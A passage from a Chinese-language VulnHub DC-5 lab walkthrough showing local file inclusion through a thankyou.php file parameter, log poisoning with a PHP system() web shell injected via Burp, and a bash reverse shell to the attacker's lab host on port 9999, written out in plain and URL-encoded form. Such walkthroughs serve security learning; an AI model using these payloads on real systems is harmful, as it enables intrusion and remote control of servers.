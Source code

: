那么尝试使用`burp`进行抓取数据包，测试其在哪个阶段进行的`url`编码，发现是在到服务器之前进行的编码，那么可以在`burp`中修改，并且，还是有可能注入的

![](D:\stu\vulnhub\DC靶场\pic-5\10.jpg)

啧，这里靶机出了问题，再访问`error.log`没有任何信息，所以无奈之下，重装靶机，可能之前进行爆破的时候，太多导致的

这时候把编码的代码进行复原，然后进行转发

![](D:\stu\vulnhub\DC靶场\pic-5\11.jpg)

再次访问`access.log`，这里为什么是`access.log`不是`error.log`了呢，因为重装后，好了，`access.log`有数据了，不过访问`error.log`也是可以看到数据的

访问`access.log`的效果如下

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/access.log
```

![](D:\stu\vulnhub\DC靶场\pic-5\12.jpg)

访问`error.log`的效果如下

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/error.log
```

![](D:\stu\vulnhub\DC靶场\pic-5\13.jpg)

而且说白了，在进行构造时，参数是不是`file`都行，只要在进行查看，也就是文件包含时，使用即可

这里确定可以执行`php`代码，那么就尝试设置一个参数，来进行命令执行

构造代码`<?php system($_REQUEST['cmd']);?>`，然后再次通过`burp`改包后转发

![](D:\stu\vulnhub\DC靶场\pic-5\14.jpg)

然后在浏览器上访问，这时候就需要构造链接了

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/access.log&cmd=ls
```

# 反弹shell

`cmd`用于接收用户的输入，然后调用`system`函数执行，也就相当于命令执行了

尝试通过这样构造一个`bash`反弹

```shell
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'

#进行URL编码后
%2fbin%2fbash+-c+%27%2fbin%2fbash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.2%2f9999+0%3e%261%27
```

把URL编码后的语句传参给`cmd`，就可以获取到一个反弹`shell`
